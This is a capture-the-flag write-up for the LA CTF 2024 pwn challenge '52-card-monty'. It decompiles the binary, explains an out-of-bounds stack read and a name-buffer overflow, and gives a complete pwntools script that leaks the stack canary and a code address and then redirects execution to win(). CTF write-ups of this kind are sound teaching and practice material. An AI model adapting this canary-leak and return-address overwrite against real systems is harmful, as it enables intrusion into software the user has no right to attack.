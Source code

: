 ```yaml
---
title: 52-card-monty
date:  2024-02-25T20:00:00+02:00
description: Writeup for 52-card-monty [LA CTF 2024]
author: PineBel
tags:
- pwn
draft: false
---
```


## Challenge Description:

3-card monty was too easy for me so I made 52-card monty! Can you show me the lady?

## Intuition 

We are given an ELF 64-bit binary with the following protections:
```bash
└─$ checksec --file=monty 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   82 Symbols        No    0               2               monty

```


We can see that it has all the protections, after opening it in Ghidra we can see that there is also a win() function that prints the flag, so it's a ret2win challenge. The vulnerability is that we can leak some addresses from the stack. The array from which we can read cards has 52 elements but our input let us read 0x52 elements from the array. 

```C
void game(void)

{
  long lVar1;
  long *plVar2;
  long in_FS_OFFSET;
  int local_1d8;
  int local_1d4;
  long local_1d0;
  long local_1c8 [52];
  char local_28 [24];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  plVar2 = local_1c8;
  for (lVar1 = 0x34; lVar1 != 0; lVar1 = lVar1 + -1) {
    *plVar2 = 0;
    plVar2 = plVar2 + 1;
  }
  for (local_1d4 = 0; local_1d4 < 0x34; local_1d4 = local_1d4 + 1) {
    lVar1 = lrand();
    local_1c8[local_1d4] = lVar1;
  }
  local_1d8 = rand();
  local_1d8 = local_1d8 % 0x34;
  local_1c8[local_1d8] = 0x423a35c7;
  puts("==============================");
  printf("index of your first peek? ");
  __isoc99_scanf(&DAT_0010206a,&local_1d8);
  local_1d0 = local_1c8[local_1d8 % 0x52];
  local_1c8[local_1d8 % 0x52] = local_1c8[0];
  local_1c8[0] = local_1d0;
  printf("Peek 1: %lu\n",local_1d0);
  puts("==============================");
  printf("index of your second peek? ");
  __isoc99_scanf(&DAT_0010206a,&local_1d8);
  local_1d0 = local_1c8[local_1d8 % 0x52];
  local_1c8[local_1d8 % 0x52] = local_1c8[0];
  local_1c8[0] = local_1d0;
  printf("Peek 2: %lu\n",local_1d0);
  puts("==============================");
  printf("Show me the lady! ");
  __isoc99_scanf(&DAT_0010206a,&local_1d8);
  puts("==============================");
  if (local_1c8[local_1d8] == 0x423a35c7) {
    puts("You win!");
  }
  else {
    puts("Just missed. Try again.");
  }
  puts("==============================");
  puts("Add your name to the leaderboard.");
  getchar();
  printf("Name: ");
  fgets(local_28,0x34,stdin);
  puts("==============================");
  printf("Thanks for playing, %s!\n",local_28);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

We can leak two addresses from the stack with the peeks the binary allows us to do, then we are asked for the index where the lady card is but this isn't important for our exploit. After this we are asked for our name.

### Solution

To solve this challenge with the two peeks I leak the main address and the canary and then I send the payload when we are asked for our name. 

```py
from pwn import *


def get_peek_address(output):
    print(output)
    temp = output[9:-1]
    temp = temp.decode()
    return hex(int(temp))


target = process("./monty")
target = remote("chall.lac.tf",31132)

target.sendlineafter(b"peek?",b"57") # index for main  is 57
main = hex(int(get_peek_address(target.recvline()),16) - 0x30)
print(main)

target.sendlineafter(b"peek?",b"55") # index for canary is 55 
canary = get_peek_address(target.recvline())
print(canary)

target.sendlineafter(b"lady!",b"1")
print(target.recvline())

# gdb.attach(target)
# pause()

flag = int(main,16) - 0x415 # distance from main to flag
print(hex(flag))
payload = b"A"*24 + p64(int(canary,16)) + p64(flag) + p64(flag)
target.sendlineafter(b"Name:",payload)
#print(target.recvline())

target.interactive()

```